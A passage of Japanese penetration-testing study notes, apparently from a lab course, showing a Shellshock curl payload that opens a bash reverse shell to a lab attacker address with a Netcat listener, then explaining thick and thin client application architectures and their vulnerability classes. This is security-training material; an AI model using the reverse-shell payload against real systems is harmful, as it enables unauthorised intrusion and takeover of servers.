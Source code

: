 **リバースシェルによる侵入**
- この例では、bash のワンライナーでリバースシェルを確立し、Netcat リスナーで受信する
```shell-session
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.38/7777 0>&1' http://10.129.204.231/cgi-bin/access.cgi
```

ローカルで待ち受ける
```shell-session
sudo nc -lvnp 7777
```
- **機密データの探索**や**権限昇格**の試み、あるいはこのホストを利用した**内部ネットワークへのピボット**などを行うことができる

# 厚いクライアントApp
- 厚型クライアントアプリケーション : Thick Client Applications
	- 私たちのコンピュータにローカルでインストールされるタイプのアプリケーション
- Webブラウザ経由でリモートサーバー上で動作する薄型クライアント（Thin Client）アプリケーションとは異なる
	- インターネット接続がなくても動作する
	- 処理能力、メモリ、ストレージ容量の面でも、パフォーマンスが優れている
- 特定の目的を達成するために設計された、エンタープライズ環境で使用されるアプリケーションが主体
	- 例
		- プロジェクト管理システム
		- 顧客関係管理（CRM）システム
		- 在庫管理ツール
		- その他の業務用ソフトウェアなどが該当


アーキテクチャの分類
- 厚型クライアントアプリケーションは、2層アーキテクチャ（two-tier）と3層アーキテクチャ（three-tier）に分類される
- 2層／3層
	- 2層
		- アプリケーションはPCにローカルインストールされ、直接データベースと通信します。
	- 3層
		- 同様にアプリケーションはローカルにインストールされますが、データベースとやり取りする前に、まずアプリケーションサーバー（通常はHTTP/HTTPS経由）と通信する
		- アプリケーションサーバーとデータベースは同一ネットワーク内、またはインターネット越しに配置されていることがある
		- セキュリティ面で優れており、攻撃者が直接データベースと通信できなくなるという利点がある

セキュリティリスク
- 多くの厚型クライアントアプリケーションはインターネットからダウンロードされる
	- ユーザーが公式アプリを確実に入手する手段がないため、セキュリティ上の懸念が生まれる
- XSSやCSRF、クリックジャッキングのようなWeb特有の脆弱性は、厚型クライアントには当てはまらない
- 成立する攻撃例
	- 不適切なエラーハンドリング
	- ハードコードされた機密データ
	- DLLハイジャック
	- バッファオーバーフロー
	- SQLインジェクション
	- 安全でないデータ保存
	- セッション管理の不備

薄型クライアント
- 厚型クライアントの反対
- 薄型クライアントは通常、サーバー側での処理やデータ保存に強く依存する
